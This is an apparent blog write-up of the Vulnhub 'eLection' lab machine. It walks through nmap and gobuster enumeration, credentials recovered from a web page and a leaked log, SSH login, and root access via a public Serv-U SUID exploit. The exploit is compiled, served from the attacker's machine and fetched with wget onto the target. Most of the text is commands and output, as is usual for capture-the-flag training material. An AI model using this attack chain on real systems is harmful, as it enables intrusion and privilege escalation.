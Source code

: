 ```yaml
---
title: Vulnhub - eLection
description: My writeup on eLection box.
categories:
 - vulnhub
tags: vulnhub Serv-U binary cyberchef
---
```


![](https://ichef.bbci.co.uk/images/ic/1024x576/p07snhjs.jpg)

Hi all, this was a really easy box let's pwn it!

You can find the machine there > [eLection](https://www.vulnhub.com/entry/election-1,503/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.15
$ nmap -sC -sV -p- -oN initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 00:35 EEST
Nmap scan report for election.zte.com.cn (192.168.1.15)
Host is up (0.00082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:B2:39:C7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the webpage, we can see the apache2 default page. I always check first for `robots.txt` and we see these directories:

```
admin
wordpress
user
election
```

Only the `/election` is working and it runs some kind of webapp (?) :

![](https://i.imgur.com/mTGtndG.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip/election/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/media (Status: 301)
/themes (Status: 301)
/data (Status: 301)
/admin (Status: 301)
/index.php (Status: 200)
/lib (Status: 301)
/languages (Status: 301)
/js (Status: 301)
/card.php (Status: 200)
```

## Shell as love

`/card.php` has binary data in let's decode them.

![](https://i.imgur.com/AdGAcVp.png)

![](https://i.imgur.com/6yiTuyp.png)

Perfect `1234:Zxc123!@#` we can login with them under `/admin`. Under settings now we can download some logs:

![](https://i.imgur.com/MpOAHOG.png)

![](https://i.imgur.com/L6ldJLh.png)

These logs have this in:

```
$ cat system.log 
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2020-07-09 18:23:29] Love has been logged in from Unknown IP on Firefox (Linux).
[2020-07-09 18:24:28]  has been logged out from Unknown IP.
[2020-07-10 03:20:21] Love has been logged in from Unknown IP on Firefox (Linux).
```

We can use them with SSH.

```
$ ssh love@$ip
love@192.168.1.15's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * "If you've been waiting for the perfect Kubernetes dev solution for
   macOS, the wait is over. Learn how to install Microk8s on macOS."

   https://www.techrepublic.com/article/how-to-install-microk8s-on-macos/

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Jul  9 18:27:37 2020 from 192.168.1.16
love@election:~$ 
```

## love -> root - Exploiting Serv-U
Perfect, now privesc is pretty easy. Let's search for `SUID` binaries.

```
love@election:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
```

`Serv-U` seems interesting, let's search for possible local privilege escalation exploits.

```
$ searchsploit Serv-U | grep Privilege
RhinoSoft Serv-U FTP Server 3.x < 5.x - Local Privilege Escalation                                                                                     | windows/local/381.c
Serv-U FTP Server - prepareinstallation Privilege Escalation (Metasploit)                                                                              | linux/local/47072.rb
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)                                                                                            | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)                                                                                            | multiple/local/47173.sh
```

`linux/local/47009.c` Seems perfect, let's mirror it and compile it.

```
$ searchsploit -m linux/local/47009.c
  Exploit: Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/47009
     Path: /usr/share/exploitdb/exploits/linux/local/47009.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/Documents/vulnhub/election/47009.c

$ gcc 47009.c -o root
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's wget it now and run it.

```
love@election:~$ cd /tmp
love@election:/tmp$ wget -q 192.168.1.16/root
love@election:/tmp$ chmod +x root; ./root
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
```

Bingo! :D Let's read the flags:

```
# cat /root/root.txt
5238feefc4ffe09645d97e9ee49bc3a6
# cat /home/love/Desktop/user.txt
cd38ac698c0d793a5236d01003f692b0
```

Was fun.
